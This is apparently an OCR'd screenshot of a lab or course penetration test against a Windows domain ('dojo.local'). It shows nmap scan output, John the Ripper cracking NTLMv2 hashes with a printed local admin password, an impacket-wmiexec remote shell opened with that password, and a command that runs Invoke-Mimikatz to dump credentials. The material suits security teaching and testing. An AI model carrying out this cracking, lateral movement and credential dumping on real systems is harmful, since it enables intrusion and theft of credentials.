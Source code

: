 135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: dojo.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds  syn-ack Microsoft Windows Server 2008 R2 - 2012 microsoft-ds (workgroup: DOJO)
3389/tcp  open  ms-wbt-server syn-ack Microsoft Terminal Service
49154/tcp open  msrpc         syn-ack Microsoft Windows RPC
49155/tcp open  msrpc         syn-ack Microsoft Windows RPC
49157/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
Service Info: Host: WIN-41RHRECO8JT; OS: Windows; CPE: cpe:/o:microsoft:windows

Initiating Connect Scan at 11:45
Scanning 64 hosts [100 ports/host]
Connect Scan Timing: About 2.50% done; ETC: 12:05 (0:20:09 remaining)
Connect Scan Timing: About 10.63% done; ETC: 12:06 (0:19:04 remaining)
Connect Scan Timing: About 15.78% done; ETC: 12:06 (0:17:58 remaining)
Connect Scan Timing: About 20.94% done; ETC: 12:06 (0:16:52 remaining)
Connect Scan Timing: About 26.09% done; ETC: 12:06 (0:15:46 remaining)
Connect Scan Timing: About 31.25% done; ETC: 12:06 (0:14:40 remaining)


root@kali:~/Documents/cs-pentest/cours_fac# john --mask=MySuperPasswordDojo?s20?d?d john
Using default input encoding: UTF-8
Rules/masks using ISO-8859-1
Loaded 19 password hashes with 19 different salts (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
MySuperPasswordDojo!2013 (local_adm)
MySuperPasswordDojo/2017 (local_adm)
MySuperPasswordDojo/2017 (local_adm)
MySuperPasswordDojo/2017 (local_adm)
MySuperPasswordDojo/2017 (local_adm)
MySuperPasswordDojo/2017 (local_adm)
MySuperPasswordDojo/2017 (local_adm)
MySuperPasswordDojo/2017 (local_adm)
MySuperPasswordDojo/2017 (local_adm)
MySuperPasswordDojo/2017 (local_adm)
MySuperPasswordDojo/2017 (local_adm)
MySuperPasswordDojo/2017 (local_adm)
MySuperPasswordDojo/2017 (local_adm)
MySuperPasswordDojo/2017 (local_adm)
MySuperPasswordDojo/2017 (local_adm)
MySuperPasswordDojo/2017 (local_adm)
16g 0:00:00:00 DONE (2017-12-12 16:10) 94.11g/s 19411p/s 272411c/s 272411C/s MySuperPasswordDojo~2099
Use the "--show" option to display all of the cracked passwords reliably
Session completed

root@kali:~/Documents# impacket-wmiexec local_adm:MySuperPasswordDojo/2017@10.0.1.18
Impacket v0.9.15 - Copyright 2002-2016 Core Security Technologies

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>powershell.exe Users\local_adm\Desktop\Invoke-Mimikatz.ps1

